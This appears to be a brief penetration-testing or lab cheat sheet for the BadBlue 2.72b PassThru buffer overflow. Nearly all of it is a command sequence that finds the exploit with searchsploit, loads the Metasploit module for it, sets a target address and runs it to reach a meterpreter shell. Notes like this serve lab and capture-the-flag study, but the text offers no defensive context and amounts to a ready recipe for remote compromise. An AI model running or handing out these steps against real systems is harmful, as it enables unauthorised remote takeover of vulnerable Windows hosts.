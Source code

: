 # BadBlue
- BadBlue 2.72b PassThru Buffer Overflow
```
searchsploit badblue 2.7

msfconsole

use exploit/windows/http/badblue_passthru
set RHOSTS <ip>
exploit

meterpreter >
```
